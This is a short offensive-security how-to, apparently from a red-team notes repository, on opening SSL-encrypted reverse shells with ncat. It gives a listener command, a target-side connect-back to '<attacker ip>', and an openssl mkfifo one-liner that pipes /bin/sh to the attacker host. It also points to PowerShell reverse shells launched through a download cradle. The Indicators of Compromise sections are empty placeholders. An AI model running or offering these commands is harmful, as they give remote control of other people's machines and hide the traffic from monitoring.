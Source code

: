 # Netcat with SSL
## Summary

This will outline how to use a normal netcat shell except the traffic is encrypted with SSL.

## Prerequisites

Any operating system that has NMAP support, as the ncat package is shipped with NMAP.

## Setup

Install NMAP and ensure the ncat command is present

## Execution

### Method 1 - Reverse Shell Listener Linux/Mac

Start up the reverse shell listener with the following command:

```bash
ncat --ssl -lvnp <port>
```

If the target has ncat as well, run the following command on the target:

```bash
ncat --ssl <attacker ip> <attcker port>
```

Otherwise, if they have openssl on linux/mac, use the following command:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | openssl s_client -connect <attacker ip>:<attacker port> 2>&1 > /tmp/f & disown
```

#### Indicators of Compromise

TODO

### Method 2 - Reverse Shell Listener Windows

I highly recommend you use the following command, but if you don't want or need `rlwrap`, simply omit it from the following command:

```bash
rlwrap ncat --ssl -lvnp <port>
```

If the target has ncat as well, run the following command on the target:

```bash
ncat --ssl <attacker ip> <attcker port>
```

Otherwise, you can use [these](https://github.com/nukingdragons/RevShells) powershell reverse shells, either "TCPReverseSSL-AddType" or "TCPReverseShell-Reflective" (AddType drops stuff to disk, reflective is less portable and may require tinkering), and then run them through a powershell cradle or otherwise to fetch a reverse shell.

#### Indicators of Compromise

TODO